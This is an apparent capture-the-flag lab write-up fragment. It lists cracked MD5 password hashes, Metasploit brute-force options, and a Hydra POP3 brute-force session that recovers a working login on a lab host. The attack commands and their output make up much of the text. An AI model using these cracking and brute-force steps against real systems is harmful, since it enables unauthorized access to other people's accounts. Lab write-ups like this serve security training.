 | Result | Hash | Type | Result |
| --- | --- | --- | --- |
| mailcall | 8a28a94a588a95b80163709ab4313aa4 | md5 | mailcall |
| bilbo101 | ae1644dac5b77c0cf51e0d26ad6d7e56 | md5 | bilbo101 |
| apples01 | 1dc352435fecca338acfd4be10984009 | md5 | apples01 |
| skyler22 | 19f5af754c31f1e2651edde9250d69bb | md5 | skyler22 |
| scoobydoo2 | 90dc16d47114aa13671c697fd506cf26 | md5 | scoobydoo2 |
| Not found. | a92b8a29ef1183192e3d35187e0cfabd | Unknown | Not found. |
| carp4ever | 0e9588cb62f4b6f27e33d449e2ba0b3b | md5 | carp4ever |
| orlando12 | 4d6e42f56e127803285a0a7649b5ab11 | md5 | orlando12 |
| 07011972 | f7fd98d380735e859f8b2ffbbede5a7e | md5 | 07011972 |

## Vulnerability Scanning

**set rhosts 10.10.89.175**

I made a text file with all the usernames and passwords in one. Here I used:

**set user_file userfow.txt**

**set pass_file passfow.txt**

**set verbose false**

**run**

![image (11).png](img3.png)

## Exploit & Initial Access

```jsx
└─$ sudo nano hash.txt
                                                                                          
┌──(neo㉿neo)-[~/pro/fo]
└─$ sudo nano pass.txt
                                                                                          
┌──(neo㉿neo)-[~/pro/fo]
└─$ hydra -L user.txt -P pass.txt pop3://10.10.36.0   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-11 12:15:37
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 90 login tries (l:9/p:10), ~6 tries per task
[DATA] attacking pop3://10.10.36.0:110/
[110][pop3] host: 10.10.36.0   login: seina   password: scoobydoo2
[STATUS] 83.00 tries/min, 83 tries in 00:01h, 7 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-11 12:17:02
                                                     
```
